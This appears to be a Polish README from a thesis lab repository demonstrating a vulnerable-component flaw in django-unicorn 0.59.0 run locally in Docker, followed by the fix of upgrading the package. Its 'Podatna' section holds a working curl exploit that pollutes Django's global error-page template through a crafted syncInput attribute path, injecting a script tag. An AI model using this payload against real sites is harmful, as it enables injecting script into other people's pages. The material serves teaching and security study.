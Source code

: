 # A06-2021/Improperly-Controlled-Modification-of-Dynamically-Determined-Object-Attributes

## Uruchomienie

Aby uruchomić aplikację lokalnie za pomocą Dockera, najpierw musimy pobrać repozytorium za pomocą polecenia:

```bash
git clone https://github.com/jopyslaw/Magisterka-URZ
```
Kolejnym krokiem jest wejście do pobranego repozytorium, używając komendy:

```bash
cd Magister-URZ
```

Następnie za pomocą komendy

```git
git checkout 'A06-2021/Improperly-Controlled-Modification-of-Dynamically-Determined-Object-Attributes'
```

Przełączyć się na odpowieni branch, który zawiera opisywany przykład.

Ostatnim krokiem jest zbudowanie kontenera za pomocą komendy:

```bash
docker compose up --build
```

Aplikacja po zbudowaniu jest dostępna pod adresem:

```bash
http://localhost:8000
```

## Podatna

Wejść pod adres:
```bash
http://localhost:8000/api/profile/
```

Za pomocą narzędzi deweloperskich trzeba pobrać wartość tokena CSRF, ciasteczko CSRF oraz z tagu div który posiada atrybut unicord:id jego wartość i wkleić do poniższego żadania

Wysłać za pomocą curla następujące żądanie:
```bash
curl -X POST http://localhost:8000/unicorn/message/profile_card/ \
  -H "Content-Type: application/json" \
  -H "X-CSRFToken: TUTAJ_WSTAW_TOKEN" \
  -H "Cookie: csrftoken=TUTAJ_WSTAW_TOKEN" \
  -d '{
    "id": "TUTAJ WSTAW ID KOMPONENTU POBRANEGO ZE STRONY INTERNETOWEJ",
    "actionQueue": [
      {
        "type": "syncInput",
        "payload": {
          "name": "__init__.__globals__.sys.modules.django.views.defaults.ERROR_PAGE_TEMPLATE",
          "value": "<html><script>alert(\'error page pollution\')</script></html>"
        }
      }
    ],
    "data": {
      "name": "Jan",
      "role": "User"
    },
    "epoch": "123",
    "checksum": "G38efjJS"
  }'
```

Wejść pod adres:
```bash
http://localhost:8000/api/profile/nie-istnieje
```

## Zabezpieczona

Wejść w plik requirements.txt i zmienić następującą linie:
```bash
django-unicorn==0.59.0
```
na
```bash
django-unicorn
```

Zbudować kontener za pomocą komendy:

```bash
docker compose up --build
```


Powtórzyć operacje opisaną w zakładce "Podatna"
